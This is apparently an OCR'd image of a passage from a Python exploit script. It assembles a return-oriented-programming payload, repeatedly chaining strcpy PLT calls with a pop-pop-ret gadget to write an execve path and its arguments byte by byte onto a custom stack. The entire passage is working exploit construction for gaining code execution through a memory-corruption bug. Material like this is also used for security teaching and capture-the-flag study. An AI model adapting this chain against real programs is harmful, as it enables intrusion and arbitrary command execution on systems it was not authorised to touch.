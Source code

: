 ```
buf += conv(execve_path_oct2)
execve_path_dst += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(execve_path_dst)
buf += conv(execve_path_oct3)
execve_path_dst += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(execve_path_dst)
buf += conv(execve_path_oct4)
execve_path_dst += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(execve_path_dst)
buf += conv(execve_path_oct1)
execve_path_dst += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(execve_path_dst)
buf += conv(execve_path_oct5)
execve_path_dst += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(execve_path_dst)
buf += conv(execve_path_oct6)
#Below stack frame is for strcpy (to copy execve argv[0] (0x804ac60) to custom stack @ loc 0x804ac68)
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(execve_argv_dst)
buf += conv(execve_argv1_oct4)
execve_argv_dst += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(execve_argv_dst)
buf += conv(execve_argv1_oct3)
execve_argv_dst += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(execve_argv_dst)
buf += conv(execve_argv1_oct2)
execve_argv_dst += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(execve_argv_dst)
buf += conv(execve_argv1_oct1)
#Below stack frame is for strcpy (to copy execve argv[1] (0x0) to custom stack @ loc 0x804ac6c)
execve_argv_dst += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(execve_argv_dst)
buf += conv(execve_null_arg)
execve_argv_dst += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(execve_argv_dst)
buf += conv(execve_null_arg)
execve_argv_dst += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(execve_argv_dst)
buf += conv(execve_null_arg)
```